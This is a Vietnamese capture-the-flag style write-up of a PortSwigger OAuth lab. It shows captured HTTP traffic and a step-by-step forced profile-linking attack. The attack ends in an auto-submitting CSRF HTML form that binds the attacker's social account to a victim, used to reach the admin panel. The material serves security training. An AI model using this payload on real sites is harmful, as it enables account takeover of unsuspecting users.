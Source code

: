 # [Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

Tóm tắt: Lỗ hổng xuất hiện ở chỗ client application sử dụng OAuth 2.0 nhưng không dùng `state` parameter nên có thể bị tấn công csrf.

Pentest

Quá trình đăng nhập bình thường:
```http
POST /login HTTP/1.1
Host: 0aac008403de70aec3344a7a00890057.web-security-academy.net
Cookie: session=jC8vNIQVWcpX76FvReSL5R5B30SJB2N4
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aac008403de70aec3344a7a00890057.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aac008403de70aec3344a7a00890057.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=6OXBVvaZGXp8CtDWb4v4FmN2DShIOpyF&username=wiener&password=peter
```
response:
```http
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=14gmFzqlokgN128C5mjC4bLVXHYedZWW; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```
=> có một cookie session

Quá trình đăng nhập dùng OAuth:
```http
GET /auth?client_id=xxludluoi5fnwu427yht1&redirect_uri=https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a4d006804b62b9fc372e48a023600d7.web-security-academy.net
Cookie: _session=B1_aA2i3ku89XzcU_seIE; _session.legacy=B1_aA2i3ku89XzcU_seIE
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
response:
```http
HTTP/1.1 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-login?code=j3nAxkgXNY9F3ii7LJFgJ2N0Ei_l8xIGktlAEvw9Zzq
Content-Type: text/html; charset=utf-8
Set-Cookie: _session=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:01:25 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:01:25 GMT; secure; httponly
Date: Thu, 08 Dec 2022 05:01:25 GMT
Connection: close
Content-Length: 283

Redirecting to <a href="https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-login?code=j3nAxkgXNY9F3ii7LJFgJ2N0Ei_l8xIGktlAEvw9Zzq">https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-login?code=j3nAxkgXNY9F3ii7LJFgJ2N0Ei_l8xIGktlAEvw9Zzq</a>.  
```
Nhận được `code` từ server, sau đó là quá trình OAuth xảy ra ở kênh bí mật giữa 2 server `client application` và `OAuth server`. Sau đó người dùng được xác thực.

Quá trình `attach a social media account`:
```http
GET /auth?client_id=xxludluoi5fnwu427yht1&redirect_uri=https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a4d006804b62b9fc372e48a023600d7.web-security-academy.net
Cookie: _session=B1_aA2i3ku89XzcU_seIE; _session.legacy=B1_aA2i3ku89XzcU_seIE
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
response:
```http
HTTP/1.1 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=redKVFStLYwxl2tpgEYirEv_IcDtI9tBw5mc7iWtCCM
Content-Type: text/html; charset=utf-8
Set-Cookie: _session=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:03:57 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:03:57 GMT; secure; httponly
Date: Thu, 08 Dec 2022 05:03:57 GMT
Connection: close
Content-Length: 287

Redirecting to <a href="https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=redKVFStLYwxl2tpgEYirEv_IcDtI9tBw5mc7iWtCCM">https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=redKVFStLYwxl2tpgEYirEv_IcDtI9tBw5mc7iWtCCM</a>.  
```
Client application nhận được `code` từ OAuth server. Ở bước này nếu thay đổi `code` của quá trình attach tài khoản khác thì client application sẽ bị lừa.
redirect:
```http
GET /oauth-linking?code=redKVFStLYwxl2tpgEYirEv_IcDtI9tBw5mc7iWtCCM HTTP/1.1
Host: 0aed00f204462b27c380e389008a0089.web-security-academy.net
Cookie: session=BLtpP3yt8O12TU4t7dMK2GkqlPRsEHE8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
response: 200

=> Do không có parameter state nên mình có thể tấn công csrf bằng cách lừa người dùng truy cập đến /oauth-linking chỉ cần kèm theo code của server oauth gửi về khi attach tài khoản khác.

Thử 2 lần attach liên tục thì cùng một tài khoản oauth server cho 2 code khác nhau => mỗi code chỉ dùng được 1 lần.

Exploit =>
Bước 1: Đăng nhập tài khoản của mình theo cách thông thường:
Bước 2: Bật intercept on ở burp suite, Chọn `attach a social profile` ở trang account.
Bước 3: Khi nhận được phản hồi `code` từ oauth server gửi về, lưu `code` lại và chọn drop packet để không request `code` này tới client application, để dành để tạo form csrf.
```http
HTTP/1.1 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=ncjTzUfbQesjRsovc7dtcboQX3X41sGa3lZvbk3gAsU
Content-Type: text/html; charset=utf-8
Set-Cookie: _session=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:26:07 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=B1_aA2i3ku89XzcU_seIE; path=/; expires=Thu, 22 Dec 2022 05:26:07 GMT; secure; httponly
Date: Thu, 08 Dec 2022 05:26:07 GMT
Connection: close
Content-Length: 287

Redirecting to <a href="https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=ncjTzUfbQesjRsovc7dtcboQX3X41sGa3lZvbk3gAsU">https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking?code=ncjTzUfbQesjRsovc7dtcboQX3X41sGa3lZvbk3gAsU</a>. 
```
Bước 4: Tạo form html để tự động chuyển hướng người dùng tới client application attach profile kèm theo code của mình.
```html
<html>
    <body>
        <form action="https://0aed00f204462b27c380e389008a0089.web-security-academy.net/oauth-linking" method="GET">
			<input type="hidden" name="code" value="ncjTzUfbQesjRsovc7dtcboQX3X41sGa3lZvbk3gAsU" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
Bước 5: Gửi form đó lên exploit server rồi chọn gửi cho mục tiêu
Bước 6: Đăng xuất ra và đăng nhập lại bằng media account của mình
Kết quả:
![ca80cb377d21d54cb79da86ddb9bdbca.png](../../../../../../_resources/ca80cb377d21d54cb79da86ddb9bdbca.png)
Bước 7: Vào admin panel xóa tài khoản carlos theo yêu cầu.

Done